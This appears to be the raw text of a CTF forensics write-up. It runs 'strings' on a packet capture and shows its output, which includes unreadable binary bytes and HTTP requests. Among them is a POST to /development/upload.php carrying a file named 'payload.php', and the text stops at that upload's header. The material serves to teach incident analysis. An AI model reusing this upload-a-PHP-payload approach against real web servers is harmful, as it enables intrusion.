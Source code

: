 ```
l+uNZH|O
sO|^>7<}
TMtI&|>R
y)'^l|]x
%FZ42f&p
8W|>T%OObj?
=uuV>62*
mzke'YAsjj
9m ^Ph~:w
ksXZIXCA
[cWF$Tv>B%
WU)a;uvNN?4
#N#H"ex7
o3.l-[="	xp
Counters provided by dumpcap

```

'''


strings overpass2.pcapng -n 16

This above commands reveals more information below

'''

AMD Ryzen 5 3600 6-Core Processor               (with SSE4.2)
Linux 5.4.0-40-generic
Dumpcap (Wireshark) 3.2.3 (Git v3.2.3 packaged as 3.2.3-1)
Linux 5.4.0-40-generic
GET /development/ HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
If-Modified-Since: Tue, 21 Jul 2020 01:38:24 GMT
If-None-Match: "588-5aae9add656f8-gzip"
?HTTP/1.1 200 OK
Date: Tue, 21 Jul 2020 20:33:53 GMT
Server: Apache/2.4.29 (Ubuntu)
Last-Modified: Tue, 21 Jul 2020 01:38:24 GMT
ETag: "588-5aae9add656f8-gzip"
Accept-Ranges: bytes
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 675
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html
POST /development/upload.php HTTP/1.1
Host: 192.168.170.159
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.170.159//
Content-Type: multipart/form-data; boundary=---------------------------1809049028579987031515260006
Content-Length: 454
Connection: keep-alive
Upgrade-Insecure-Requests: 1
-----------------------------1809049028579987031515260006
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php"